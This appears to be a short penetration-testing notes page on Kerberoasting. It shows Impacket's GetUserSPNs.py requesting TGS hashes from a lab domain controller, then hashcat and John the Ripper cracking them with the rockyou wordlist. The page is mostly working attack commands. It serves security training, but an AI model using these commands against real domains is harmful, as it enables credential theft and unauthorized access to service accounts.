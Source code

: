 
## **Usage**


```powershell
# Grabing the TGS hash
# -dc-ip : domain controller IP address
# -request : request for TGS hash
# sudo GetUsersSPNs.py <Domain/Username:Password> -dc-ip <IP of DC> -request
$ sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.0.149  -request
```


#### **Example**

![](https://i.imgur.com/RaJyFv0.png)


## **Cracking the TGS hash**

- Save the TGS hash in a `.txt` file and then we can crack it with either **hashcat** or **johntheripper**

```powershell
# cracking with hashcat
$ hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt -O

# cracking with johntheripper
$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --fork=4
```


#### **Example**

**_Hashcat Output :_**



![](https://i.imgur.com/KkPwija.jpg)



**_Johntheripper Output :_**



![](https://i.imgur.com/4tLo5Jj.png)
